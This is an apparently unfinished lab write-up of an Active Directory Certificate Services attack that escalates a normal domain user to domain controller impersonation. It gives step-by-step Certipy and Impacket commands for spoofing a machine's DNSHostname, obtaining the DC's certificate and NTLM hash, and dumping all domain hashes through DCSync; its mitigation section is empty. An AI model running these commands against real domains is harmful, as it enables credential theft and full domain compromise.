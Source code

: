 # Outline
- The Attack In Brief
- The Tools Needed
- Lab Setup And Conditions
- Demonstrating The Attack
- Technical Breakdown
- Mitigation
- References and Credits

---

# The Attack In Brief
1. By default, A regular AD user can add up to 10 computers to the domain.
2. After a user adds a computer to the domain, he gains the right to change its `DNSHostname` property.
3. By changing this property to be a domain controller's `DNSHostname`, he can request a certificate for it from ADCS.
4. Using the domain controller's certificate, we can obtain its NTLM hash.
5. And with that, we can request a complete copy of the domain hashes a.k.a perform a **DCSync** attack.

---

# The Needed Tools
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Demonstrating The Attack
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# Technical Breakdown
## Center Puzzle Piece: Certificates Can Be Used For Authentication in AD


## Puzzle Piece #1: The Default Privileges Of A Normal AD User
In Active Directory, any member of the `Authenticated Users` group is allowed to add up to 10 computers to the domain.

We can verify that by going to `MMC -> ADSI EDIT > DEFAULT NAMING CONTEXT > DOMAIN PROPERTIES`

![machine-account-quota](machine-account-quota.jpg)

## Puzzle Piece #2: The Permissions an AD User Has on The Computer He Joins to the domain
When a user adds a computer to the domain, he gains a few permissions on it:

![permissions-of-computer-owner](permissions-of-computer-owner.jpg)

## Puzzle Piece #3: the permissions for the computer certificate template
The computer certificate is accessible to any computer in the Domain Computers Group:

![computer-certificate-template-permissions](computer-certificate-template-permissions.jpg)

4. requesting certs
5. grabbing the NTLM hash

# mitigation

# references and credits